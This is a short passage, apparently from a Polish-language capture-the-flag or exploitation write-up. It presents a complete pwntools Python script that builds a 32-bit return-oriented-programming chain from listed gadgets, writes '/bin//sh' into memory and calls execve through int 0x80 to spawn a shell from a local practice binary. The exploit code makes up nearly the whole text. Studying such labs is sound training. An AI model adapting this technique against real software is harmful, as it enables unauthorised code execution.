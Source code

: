 


Finalnie exploit prezentuje się następująco.

```python=
#!/usr/bin/env python3

from pwn import *


################ IN USAGE #####################
# 0x080793c4 : mov dword ptr [eax], edx ; ret
# 0x08065abe : pop edx ; pop ebx ; pop esi ; ret
# 0x0805bf75 : pop ebp ; mov eax, edx ; ret
# 0x08063ca1 : pop ecx ; add al, 0xf6 ; ret
# 0x0804a6c2 : int 0x80


def set_edx_ebx(edx,ebx):
    return p32(0x08065abe) + p32(edx) + p32(ebx) + p32(0xfadeface)

def write_to_mem(addr, val):
    return set_eax(addr) + set_edx_ebx(val,0xfadeface) + p32(0x080793c4)

def set_eax(val):
    return set_edx_ebx(val,0x0) + p32(0x0805bf75) + p32(0xfadeface)

def set_ecx(val):
    return p32(0x08063ca1) + p32(val)

def int80():
    return p32(0x0804a6c2)

buffor = 0x80e8144

shellcode = b''.join([
    b"A" * 28,
    write_to_mem(buffor, u32("/bin")),
    write_to_mem(buffor + 4, u32("//sh")),
    set_ecx(0x0),
    set_eax(0x0b),
    set_edx_ebx(0x0, buffor),
    int80()
])

p = process('./vuln-3.o')

p.sendline(b"")

p.sendline(shellcode)

p.interactive()
```
